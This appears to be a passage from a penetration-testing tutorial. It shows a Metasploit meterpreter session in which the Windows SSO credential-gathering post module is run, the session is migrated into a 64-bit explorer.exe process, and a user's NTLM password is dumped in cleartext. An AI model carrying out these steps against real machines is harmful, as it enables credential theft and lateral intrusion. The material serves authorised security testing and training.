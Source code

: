 ```
msf post(sso) > show options

Module options (post/windows/gather/credentials/sso):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf post(sso) > set session 1
session => 1
msf post(sso) > run

[*] Running module against PTH-PC
[-] x64 platform requires x64 meterpreter and mimikatz extension
[*] Post module execution completed
msf post(sso) > sessions -i 1
[*] Starting interaction with 1...
```
Migrate the session to 64 bit process and repeat.
```
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]                                                
 4     0     System             x64   0                                      
 260   4     smss.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 ...
 1260  1180  explorer.exe       x64   1        PTH-PC\PTH                    C:\Windows\explorer.exe
 ...

meterpreter > migrate 1260
[*] Migrating from 2128 to 1260...
[*] Migration completed successfully.
meterpreter > background
[*] Backgrounding session 1...
msf post(sso) > run

[*] Running module against PTH-PC
Windows SSO Credentials
=======================

AuthID   Package  Domain  User  Password
------   -------  ------  ----  --------
0;53896  NTLM     PTH-PC  PTH   WindowsIsBrokenByDefault
0;53896  NTLM     PTH-PC  PTH   

[*] Post module execution completed
```
## Linux
